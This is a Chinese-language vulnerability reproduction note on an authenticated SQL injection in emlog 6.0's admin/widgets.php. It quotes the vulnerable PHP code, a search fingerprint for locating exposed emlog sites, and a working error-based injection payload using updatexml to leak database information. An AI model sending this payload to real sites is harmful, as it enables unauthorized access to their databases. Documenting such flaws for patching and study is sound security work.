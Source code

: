 # emlog widgets.php 后台SQL注入漏洞

## 漏洞描述

emlog widgets.php文件在登录后通过构造特殊语句导致SQL注入，获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>emlog 6.0 </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="EMLOG"</a-checkbox></br>

## 漏洞复现

产品主页

```python
https://github.com/emlog/emlog
```

![img](../../../.vuepress/public/img/1634002177714-22159b01-c44f-476a-bb4f-8363cceb9460.png)

存在漏洞的文件为 **admin/widgets.php**

![img](../../../.vuepress/public/img/1634002231213-67b50259-52f0-4cf0-983b-fc1a88cc6471.png)

```python
if ($action == 'compages') {
    $wgNum = isset($_POST['wgnum']) ? intval($_POST['wgnum']) : 1;//侧边栏编号 1、2、3 ……
    $widgets = isset($_POST['widgets']) ? serialize($_POST['widgets']) : '';
    Option::updateOption("widgets{$wgNum}", $widgets);
    $CACHE->updateCache('options');
    emDirect("./widgets.php?activated=true&wg=$wgNum");
}
```

传参为 wgnum 和 widgets ，跟踪方法 **updateOption**

![img](../../../.vuepress/public/img/1634002837216-c1000372-81ea-4671-bc5d-c378110d93db.png)

```python
static function updateOption($name, $value, $isSyntax = false){
        $DB = Database::getInstance();
        $value = $isSyntax ? $value : "'$value'";
        $DB->query('UPDATE '.DB_PREFIX."options SET option_value=$value where option_name='$name'");
    }
```

可以发现对传入的参数木有进行过滤，构造Payload

```python
POST /admin/widgets.php?action=compages

widgets=1' and updatexml(0x3a,concat(1,(select user())),1)-- 
```

调试后可以发现，数据库报错语句会回显至页面中，报错注入即可获取敏感信息

![img](../../../.vuepress/public/img/1634002917512-820b18c8-d37a-4507-974c-1ba9c2afc2ed.png)![img](../../../.vuepress/public/img/1634003089227-452c8b4e-d367-4f01-af1f-e90a79bfd91f.png)